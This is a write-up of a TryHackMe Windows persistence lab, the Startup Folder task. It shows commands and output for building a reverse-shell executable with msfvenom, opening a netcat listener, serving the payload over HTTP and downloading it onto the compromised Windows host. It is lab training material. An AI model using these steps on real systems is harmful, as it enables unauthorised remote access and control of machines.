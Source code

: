 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# Startup Folder
1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow the compromised Windows machine to connect back to our attack machine and download the reverse shell payload that we just created
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine to launch PowerShell
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
```